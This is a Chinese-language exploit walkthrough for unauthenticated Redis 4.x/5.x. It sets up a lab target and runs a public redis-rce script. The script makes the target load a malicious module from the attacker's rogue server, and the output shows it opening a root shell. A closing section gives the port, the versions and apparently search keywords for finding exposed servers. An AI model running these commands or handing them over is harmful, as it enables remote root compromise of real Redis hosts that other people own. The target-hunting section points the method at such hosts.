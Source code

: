 # Redis未授权通过主从复制GETSHELL


## 0x01 环境搭建

 靶机kali，ip地址192.168.1.16，安装redis服务命令。  

 wget http://download.redis.io/releases/redis-5.0.0.tar.gz  
 tar xzf redis-5.0.0.tar.gz  
 cd redis-5.0.0  
 make  


 编译好然后修改redis.conf文件，把127.0.0.1 改成 0.0.0.0  启动服务。  


 ./redis-server /root/redis-5.0.0/redis.conf  

 ![1](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/1.jpg)

## 0x02 漏洞利用

  攻击机Ubuntu，ip地址192.168.1.107，下载exp脚本，然后输入参数开始。

  git close https://github.com/Ridter/redis-rce  
  cd redis-rce  
  greekn@greekn:~/redis-rce$ python3 redis-rce.py -r 192.168.1.16 -L 192.168.1.107 -f exp_lin.so  

  █▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄         █▄▄▄▄ ▄█▄    ▄███▄       
  █  ▄▀ █▀   ▀  █  █  ██   █     ▀▄       █  ▄▀ █▀ ▀▄  █▀   ▀  
  █▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄         █▀▀▌  █   ▀  ██▄▄        
  █  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀          █  █  █▄  ▄▀ █▄   ▄▀  
    █   ▀███▀   ███▀   ▐                    █   ▀███▀  ▀███▀        
  ▀                                       ▀                       
  
 [*] Connecting to  192.168.1.16:6379...  
 [*] Sending SLAVEOF command to server  
 [+] Accepted connection from 192.168.1.16:6379  
 [*] Setting filename  
 [+] Accepted connection from 192.168.1.16:6379  
 [*] Start listening on 192.168.1.107:21000  
 [*] Tring to run payload  
 [+] Accepted connection from 192.168.1.16:38875  
 [*] Closing rogue server...  

 [+] What do u want ? [i]nteractive shell or [r]everse shell: i  
 [+] Interactive shell open , use "exit" to exit...  
 $ whoami  
 root  
 $   

 ![2](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/2.jpg)

## 0x03 脆弱目标寻找  

 漏洞关键词redis 默认端口6379，影响版本 4.x/5.x  

 ![3](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/3.jpg)

 参考链接 https://paper.seebug.org/975/  

 ![4](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/4.jpg)


